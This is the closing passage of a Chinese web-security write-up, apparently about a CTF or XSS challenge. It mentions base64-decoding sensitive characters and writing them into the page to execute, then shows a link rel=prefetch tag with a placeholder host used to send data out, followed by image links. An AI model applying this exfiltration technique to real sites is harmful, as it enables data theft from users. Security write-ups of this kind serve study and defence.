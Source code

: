其中所有的敏感符号通过解base64获得，然后写入页面内执行

最后通过
```
<link rel="prefetch" href="xxxxx.xx">
```

把数据传出...

  [1]: http://static.zybuluo.com/LoRexxar/r67ihy6epkvcnkqvnqulsvjl/image.png
  [2]: http://static.zybuluo.com/LoRexxar/sgxf9gq2ni5i7osmlm17vzry/image.png
  [3]: http://static.zybuluo.com/LoRexxar/23ujazb8yck2rnzy9b6ow02s/image.png
  [4]: http://static.zybuluo.com/LoRexxar/nptyaixmrkwgizd1bce9yhe3/image.png
  [5]: http://static.zybuluo.com/LoRexxar/2tmhyv1f575lfz6apaeg0o4q/image.png
  [6]: http://static.zybuluo.com/LoRexxar/9tys2vihqrm3xznatpwkjzkm/image.png
